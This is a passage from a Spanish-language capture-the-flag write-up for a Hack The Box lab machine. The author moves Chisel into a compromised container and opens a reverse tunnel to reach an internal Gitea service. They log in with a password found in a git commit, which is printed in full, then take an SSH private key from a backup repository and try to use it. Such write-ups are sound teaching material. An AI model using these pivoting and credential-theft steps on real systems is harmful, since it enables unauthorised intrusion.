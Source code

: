Desde mi máquina no puedo visualizar ese puerto, si fuera una web solo podría hacerlo desde un wget en terminal, pero tenemos la opción de hacer un **Remote Port Forwarding**. Es decir, hacer que mi puerto 3000 sea el de la víctima, para ello podemos usar Chisel, esta herramienta se encuentra en el github de jpillora, te vas a "releases" y te descargas el linux-amd64.  
Le doy permiso de ejecución y lo paso al docker
```
> python3 -m http.server 8040
```
Y desde el docker:
```
/tmp # wget http://10.10.14.7:8040/chisel
/tmp # chmod +x chisel
``` 
Ahora desde local ejecuto chisel como servidor, desde el docker lo ejecutaré como cliente. Desde local:
```
❯ ./chisel server --reverse -p 1212
2023/05/11 18:21:26 server: Reverse tunnelling enabled
2023/05/11 18:21:26 server: Fingerprint +U65eRfZSi769xbiDwgNfcZKeCG+SP6d6/vkciugvSQ=
2023/05/11 18:21:27 server: Listening on http://0.0.0.0:1212
```
Desde el docker me pongo como cliente:
```
/tmp # ./chisel client 10.10.14.7:1212 R:3000:172.17.0.1:3000
```
Con ese comando he resuelto que el puerto 3000 de mi Ip sea el de la máquina objetivo con ip 127.17.0.1. Lo comprobaré desde mi terminal local:
```
❯ lsof -i:3000
COMMAND  PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
chisel  8949 root    8u  IPv6  76295      0t0  TCP *:3000 (LISTEN)
```
Guay, y ahora desde mi propio navegador podré ver que hay en el puerto 3000.

![Gitea]({{ 'assets/img/writeups/OpenSource/gitea.png' | relative_url }}){: .center-image }

Nos encontramos con gitea. Buscando info por internet vemos lo que es:  
Gitea es un paquete de software de código abierto para alojar el control de versiones de desarrollo de software utilizando Git.

Hay un apartado de login "Sign in". Recuerda que habíamos encontrado hace un rato unas credenciales en un commit del git: dev01:Soulless_Developer#2022

Probamos y conseguimos entrar. Veo un dev01/home-backup y dentro de él un .ssh con una id_rsa que posiblemente sea del usuario dev01. Fantástico. Me copio la id_rsa como id_rsa y le doy el permiso 600; `chmod 600 id_rsa`. Ahora intento conectarme por ssh como dev01 usando esa id_rsa:
```
❯ ssh -i id_rsa dev01@10.10.11.164
Load key "id_rsa": invalid format
dev01@10.10.11.164: Permission denied (publickey).
```
mmmmm raaaaro, raaaro, le he dado el permiso 600 y aun así..

Mirando otros WriteUps en este punto veo que no les había dado problemas. Pruebo a conectarme con otras id_rsa que tenía de otras máquinas a esas otras máquinas y todo bien, así se debe a algún problema entiendo de la máquina objetivo.. Un problema que evita que otra máquina se pueda meter en su sistema, juuuasss.
